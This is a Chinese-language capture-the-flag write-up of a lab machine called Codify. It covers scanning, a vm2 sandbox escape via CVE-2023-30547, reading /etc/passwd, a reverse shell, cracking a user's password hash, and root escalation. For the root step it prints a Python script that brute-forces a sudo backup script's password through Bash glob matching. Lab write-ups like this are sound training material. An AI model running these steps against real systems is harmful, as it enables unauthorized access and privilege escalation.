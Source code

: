 ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/6ff5a5c6-fe10-43d6-8b99-eacbe9c68a11)Codify
===
尋找user.txt
---
      1.使用nmap進行掃描

   ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/0c00ac91-6a05-4b20-9a49-cd2f7a803930)

      2.使用80 port為進入點，瀏覽網頁

   ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/71fa5ff9-33cd-4343-baf9-9262c677d5ac)

      3.使用 vm2 庫在沙箱環境中運行 Javascript 程式碼。在查找 vm2 庫中的當前漏洞後，發現了CVE-2023-30547，它允許攻擊者繞過沙箱限制並在主機環境中執行任意程式碼。

   [CVE-2023-30547](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244)

      4.在runtime環境下執行POC指令測試使用cat /etc/passwd

   ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/13170605-5477-4863-8cbc-ff48a9a65ee7)

      5.使用reverse shell

   ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/0ed4a6d2-aa3c-45e2-af79-f4b7d588acf9)

      6.進入/var/www/contact目錄，檢視tickets.db拿到joshua密碼HASH

   ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/bfb6ea03-f494-4d0b-b431-dc358a937d1d)

      7.破解密碼HASH後，登入joshua

   ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/87abbb76-f893-427a-a1cc-83caa6844a99)

      8.拿到user.txt

   ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/a17fbfe0-ddc3-46cd-9708-f6ee904dfbb5)

尋找root.txt
---

      9.執行sudo -l 確認可執行指令

   ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/35fecdc5-8641-422f-aeed-82fb65c52c04)

      10.分析mysql-backup.sh內容

   ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/fcc7ea94-9229-405b-a45d-912a4fef8cf9)

      11.腳本的這一部分將使用者提供的密碼 (USER_PASS) 與實際資料庫密碼 (DB_PASS) 進行比較。這裡的漏洞是由於 Bash 中 [[ ]] 內部使用了 == ，它執行模式匹配而不是直接字串比較。
      這意味著使用者輸入 (USER_PASS) 被視為一種模式，如果它包含像 * 或 ? 這樣的全域字符，它可能會匹配意外的字串。
      例如，如果實際密碼（DB_PASS）是password123，並且使用者輸入*作為其密碼（USER_PASS），則模式匹配將成功，因為*匹配任何字串，從而導致未經授權的存取。
**這意味著我們可以暴力破解 DB_PASS 中的每個字元**

      12.使用腳本進行密碼破解

      import string
      import subprocess
      all = list(string.ascii_letters + string.digits)
      password = ""
      found = False

      while not found:
          for character in all:
              command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
              output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

              if "Password confirmed!" in output:
                  password += character
                  print(password)
                  break
          else:
              found = True
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/532a4da9-484b-4d50-b4d2-27a156a56160)

       13.登入root，拿到root.txt

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/2eb65333-af7c-4bd1-b6b7-79c563f6a584)
